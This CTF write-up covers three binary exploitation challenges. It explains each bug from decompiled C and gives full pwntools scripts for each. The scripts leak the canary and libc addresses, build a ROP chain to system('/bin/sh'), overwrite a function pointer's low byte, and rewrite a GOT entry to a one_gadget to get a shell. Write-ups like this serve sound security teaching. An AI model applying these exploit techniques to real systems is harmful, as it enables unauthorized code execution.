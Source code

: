 ## Exploitation Class

The program allocates a `char data[22][12];`  buffer on the stack, and we can
read and write it.

The vulnerability is here

```c  
unsigned __int64 __fastcall writeData(char *a1)  
{  
 unsigned int v2; // [rsp+4h] [rbp-14h]  
 unsigned __int64 v3; // [rsp+8h] [rbp-10h]

 v3 = __readfsqword(0x28u);  
 puts("Which entry to write?");  
 v2 = 0;  
 __isoc99_scanf("%u", &v2;;  
 if ( v2 <= 0xFC )  
 {  
   puts("What to write?");  
   read(0, &a1[12 * v2], 0xCuLL);  
 }  
 return __readfsqword(0x28u) ^ v3;  
}  
```

It ensures that index is `<= 0xfc`, however, it should be `idx * 12 <= 0xfc`,
so this leads to a index out of bound.

Also, there is no null termination here, so we can leak some data.

There is stack canary here, so we need to leak the canary and libc address.
Because we can read the last element of the array, we can fill all of the
bytes such that there is no null termination from the last element to the data
we want to leak. Then we can leak the data by showing the last element.

After leaking the data, it is very easy to ROP and execute the
`system("/bin/sh")`

```python  
from pwn import *

g_local=False  
context.log_level='debug'

if g_local:  
	sh = process("./exploitClass")#env={'LD_PRELOAD':'./libc.so.6'}  
	MAIN_RET_OFF = 0x20830  
	ONE_GADGET = 0x45216  
	POP_RDI = 0  
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
	gdb.attach(sh)  
else:  
	sh = remote("class.uni.hctf.fun", 24241)  
	#sh = process("./exploitClass", env={'LD_PRELOAD':'./libc.so.6'})  
	MAIN_RET_OFF = 0x24223  
	ONE_GADGET = 0x451F9 #0x45254  
	POP_RDI = 0x23BE3  
	e = ELF("./libc.so.6")

def read(idx):  
	sh.send("1\n")  
	sh.recvuntil("Which entry to show?\n")  
	sh.send(str(idx) + "\n")  
	ret = sh.recvuntil("\n")  
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")  
	return ret[:-1]

def write(idx, data):  
	sh.send("2\n")  
	sh.recvuntil("Which entry to write?\n")  
	sh.send(str(idx) + "\n")  
	sh.recvuntil("What to write?\n")  
	sh.send(data)  
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")

sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")  
write(21, "B" * 12)  
write(22, "C")  
#write(24, "A" * 8 + '\xa0') #return to main  
canary = u64(read(21)[0xc:0xc+8]) - ord('C')  
print hex(canary)  
for i in xrange(0,4):  
	write(22 + i, "B" * 0xc)  
libc_addr = u64(read(21)[0x3c:0x3c+6] + "\x00\x00") - MAIN_RET_OFF

write(22, p64(canary))  
write(24, 'A' * 8 + p32((libc_addr + POP_RDI) & 0xffffffff))  
write(25, p32((libc_addr + POP_RDI) >> 0x20) + p64(libc_addr +
next(e.search("/bin/sh"))))  
write(26, p64(libc_addr + e.symbols["system"]))  
print hex(libc_addr)  
write(29, '\x00' * 0xc)  
sh.send("3\n")  
sh.interactive()  
```

## Important Service

0x401 0 can cause the buffer overflow, which can overwrite one lowest byte of
the function pointer in the stack

```c  
char vulnbuf[1024]; // [rsp+0h] [rbp-420h]  
int (__fastcall *func_addr)(char *, int, int); // [rsp+400h] [rbp-20h]  
//...  
fread(vulnbuf, 1uLL, (signed int)vullen, stdin);  
func_addr(vulnbuf, vullen, v7);  
```

Although there is PIE in this program, the lowest 12 bits will not change due
to the PIE. Initially the function pointer in the stack is `base_addr +
0x11BC`, and the shell function address is `base_addr + 0x11A9`, so if we
change `0xbc` to `0xa9`, the shell function will be called instead.

```python  
from pwn import *

g_local=False  
context.log_level='debug'  
store_idx = 0

if g_local:  
	sh = process("./importantservice")#env={'LD_PRELOAD':'./libc.so.6'}  
	gdb.attach(sh)  
else:  
	sh = remote("importantservice.uni.hctf.fun", 13375)

sh.recvuntil("Please enter width and height e.g.: 5 8\n")  
sh.send(str(0x401) + " 0\n")  
sh.recvuntil("Please provide some data e.g.: 12345\n")  
sh.send("A" * 0x400 + "\xa9")

sh.interactive()  
```

## Kindergarten PWN

In the program, an index is required to be given, and the program will show
the original byte at that index and let you to change it. The problem is that
it did not check the index must be `>=0`

```c  
if ( v5 <= 31 )//v5 < 0  
{  
  printf("the value at %d is %hhd. give me a new value:\n> ", (unsigned
int)v5, (unsigned int)array[v5]);  
  v3 = &v4;  
  if ( (unsigned int)__isoc99_scanf("%hhd", &v4) != 1 )  
    break;  
  array[v5] = v4;  
}  
```

and array is a global variable, and the got table can be overwritten, so we
can use this to leak the libc address and rewrite the got table to
`one_gadget`

```python  
from pwn import *

g_local=False  
context.log_level='debug'  
store_idx = 0

e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
if g_local:  
	sh = process("./kindergarten")#env={'LD_PRELOAD':'./libc.so.6'}  
	#sh = process(['ld.so.2', './user.elf'])  
	gdb.attach(sh)  
else:  
	sh = remote("kindergarten.uni.hctf.fun", 13373)  
	#ONE_GADGET_OFF = 0x4557a

def one_iter(idx, val = None):  
	sh.recvuntil("give me an index:\n> ")  
	sh.sendline(str(idx))  
	sh.recvuntil("the value at " + str(idx)+ " is ")  
	ret = sh.recvuntil(".")  
	sh.recvuntil(" give me a new value:\n> ")  
	ret = int(ret[:len(ret)-1])  
	if val:  
		sh.sendline(str(val))  
	else:  
		sh.sendline(str(ret))  
	return ret & 0xff

def leak_qword(off):  
	ret = 0  
	for i in xrange(0,8):  
		ret |= one_iter(off + i) << (8 * i)  
	return ret

def shoot_qword(off, val):  
	for i in xrange(0,8):  
		one_iter(off + i, (val >> (8 * i)) & 0xff)

libc_addr = leak_qword(0x4018 - 0x4080) - e.symbols["printf"]  
#leak address of `printf`  
print hex(libc_addr)  
shoot_qword(0x4030 - 0x4080, libc_addr + 0x4526a) #0x30 one_gadget  
#rewirte the `exit` function to one_gadget  
sh.recvuntil("> ")  
sh.sendline("asd")

sh.interactive()  
```

Original writeup
(https://github.com/EmpireCTF/empirectf/tree/master/writeups/2018-10-26-P-W-N-
CTF#important-service).